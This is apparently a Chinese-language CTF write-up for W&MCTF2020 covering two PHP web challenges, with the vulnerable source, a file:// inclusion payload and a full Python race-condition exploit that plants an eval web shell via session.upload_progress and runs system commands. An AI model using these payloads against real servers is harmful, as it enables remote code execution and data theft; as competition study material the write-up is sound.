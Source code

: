```yaml
---
title: W&MCTF2020
date: 2020-08-03
image: https://raw.githubusercontent.com/Anthem-whisper/imgbed/master/img/20210228100849.jpeg
description: W&M战队主板，0day大战
categories: 
- ctf_writeup
tags:
- session.upload_progress
- 文件包含
---
```

0day大战，，，打不动，告辞

------

### web_checkin

考点：文件包含file协议

```
<?php
//PHP 7.0.33 Apache/2.4.25
error_reporting(0);
$sandbox = '/var/www/html/' . md5($_SERVER['REMOTE_ADDR']);
@mkdir($sandbox);
@chdir($sandbox);
highlight_file(__FILE__);
if(isset($_GET['content'])) {
    $content = $_GET['content'];
    if(preg_match('/iconv|UCS|UTF|rot|quoted|base64/i',$content))
         die('hacker');
    if(file_exists($content))
        require_once($content);
    file_put_contents($content,'<?php exit();'.$content);
}
```

直接file读取根目录flag

```
?content=file:///flag
```

WMCTF{a1sc8591as98c1a96s85c165as1cas7d89}

 

 

 

### Make PHP Great Again

考点：session.upload_progress文件包含，条件竞争

referer:https://www.freebuf.com/news/202819.html

exp:

```
#coding=utf-8
 
import io
import requests
import threading
sessid = 'TGAO'
data = {"cmd":"system('tac /var/www/html/flag.php');"}
def write(session):
    while True:
        f = io.BytesIO(b'a' *100* 50)
        resp = session.post( 'http://no_body_knows_php_better_than_me.glzjin.wmctf.wetolink.com', data={'PHP_SESSION_UPLOAD_PROGRESS': '<?php eval($_POST["cmd"]);?>'}, files={'file': ('tgao.txt',f)}, cookies={'PHPSESSID': sessid} )
def read(session):
    while True:
        resp = session.post('http://no_body_knows_php_better_than_me.glzjin.wmctf.wetolink.com?file=/tmp/sess_'+sessid,data=data)
        if 'tgao.txt' in resp.text:
            print(resp.text)
            event.clear()
        else:
            print("[+++++++++++++]retry")
if __name__=="__main__":
    event=threading.Event()
    with requests.session() as session:
        for i in range(1,30):
            threading.Thread(target=write,args=(session,)).start()
 
        for i in range(1,30):
            threading.Thread(target=read,args=(session,)).start()
    event.set()
```

WMCTF{php_s0urc3_1s_om0sh1201}